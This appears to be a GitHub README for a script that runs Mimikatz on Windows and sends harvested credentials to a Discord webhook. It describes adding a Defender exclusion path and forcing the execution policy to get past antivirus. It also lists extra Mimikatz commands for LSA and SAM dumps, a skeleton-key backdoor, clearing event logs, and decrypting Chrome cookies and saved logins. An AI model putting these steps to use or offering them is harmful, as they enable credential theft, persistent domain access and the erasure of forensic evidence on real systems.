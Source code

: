 # usage
Place discord webhook into the correct variable in the Mimikatz.txt file, and that's it!

# To know 
this script sets an exclusion path on C:\temp, then removes such and the execution policy back to normal when completed.

# Exfiltration
Mimikatz is a very useful utility for pentesters, so change the commands to ones needs. 
- for now sekurlsa::logonpasswords is exfiltrated and saved to the logs, add more if needed 

# examples for additions
Extract from lsass (service)
- lsadump::lsa /inject

Extract from SAM
- lsadump::sam

print list of provider keys
- crypto::keys /export

skeleton key
- misc::skeleton

event logs
- event::clear
- event::clear /log:system

Chrome Cookies
- dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect

Chrome Logins
- dpapi::chrome /in:"C:\Users\\%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data" 

# Note
Script does not bypass av, we force it

# Mimikatz payload credits
https://github.com/HernanRodriguez1/MimikatzFUD